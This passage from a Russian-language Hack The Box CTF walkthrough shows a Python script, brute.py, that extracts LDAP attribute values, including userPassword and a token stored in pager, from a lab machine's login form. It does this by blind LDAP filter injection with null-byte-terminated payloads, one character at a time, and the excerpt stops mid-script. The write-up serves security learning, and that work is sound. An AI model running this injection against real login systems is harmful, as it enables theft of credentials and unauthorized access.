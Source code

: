 [![existing-attributes.png](/assets/images/htb/machines/ctf/existing-attributes.png)](/assets/images/htb/machines/ctf/existing-attributes.png)
{:.center-image}

Итак, шесть атрибутов из нашего словаря существуют в каталоге. Где было бы логичнее всего хранить 81 цифру для токена CTF? Скорее всего, это будет значение атрибута pager — ведь 2019-й год на дворе, кто-то еще пользуется пейджерами? Я вот их даже не застал... Ну да ладно, все равно мы ради интереса сбрутим все присутствующие атрибуты.

Переименовав скрипт на Python в brute.py (что надо было сделать еще при предыдущей его модификации), я в очередной раз его немного видоизменю и сдамплю все существующие атрибуты по списку.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 brute.py

import re
import time
from datetime import timedelta
from string import ascii_lowercase, digits
from urllib.parse import quote_plus

import requests

URL = 'http://10.10.10.122/login.php'

ATTRIBUTES = [
	'mail',
	'cn',
	'uid',
	'userPassword',
	'sn',
	'pager'
]

timestart = time.time()
print()

for a in ATTRIBUTES:
	attr, done = '', False

	while not done:
		if a == 'pager':
			charset = digits
		else:
			charset = ascii_lowercase + digits + '_-@.'

		for c in charset:
			# Инъекция вида "ldapuser)(<ATTRIBUTE>=*)))%00"
			inject = f'ldapuser{quote_plus(")(")}{a}{quote_plus("=")}{attr}{c}{quote_plus("*)))")}'

			data = {
				'inputUsername': inject + '%00',
				'inputOTP': '31337'
			}

			resp = requests.post(URL, data=data)

			match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)
			if match.group(1).strip() == 'Cannot login':
				attr += c
				break

```